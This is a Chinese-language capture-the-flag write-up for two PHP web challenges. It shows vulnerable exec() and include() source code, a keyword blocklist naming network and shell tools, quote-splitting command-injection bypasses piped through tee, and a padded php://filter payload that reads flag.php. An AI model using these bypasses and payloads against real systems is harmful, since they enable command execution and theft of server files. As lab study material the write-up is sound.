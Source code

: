 ```SQL
```

## [SWPUCTF 2021 新生赛]finalrce
- 题目源码
```php
<?php  
highlight_file(__FILE__);  
if(isset($_GET['url']))  
{    
	$url=$_GET['url'];
	if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))  
    {  
        echo "Sorry,you can't use this.";  
    }  
    else  
    {  
        echo "Can you see anything?";
        exec($url);  
    }  
}
```
- 因为这里是 `exec` 所以执行命令后不回显，我们可以构造命令 `l''s /;sleep 5` 来测试命令是否执行成功，尝试后发现命令成功执行，我们需要对其进一步利用以获取 flag。    
- 可以将结果使用 `tee` 命令输出到 `txt` 中，然后访问 `txt` 来查看命令执行的结果。
```bash
l''s /|tee 1.txt
ca''t flllll''aaaaaaggggggg|tee 2.txt
```

## [鹏城杯 2022]简单包含
- 题目源码
```php
<?php 
	$path = $_POST["flag"];
	if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) 
	{ 
		echo 'nssctf waf!'; 
	} 
	else 
	{ 
		@include($path); 
	} 
?> 

<?php   
highlight_file(__FILE__);  
include($_POST["flag"]);
// flag in /var/www/html/flag.php;
?>
```
Payload：
```TEXT
a=a(800个a)&flag=php://filter/convert.base64-encode/resource=flag.php
```
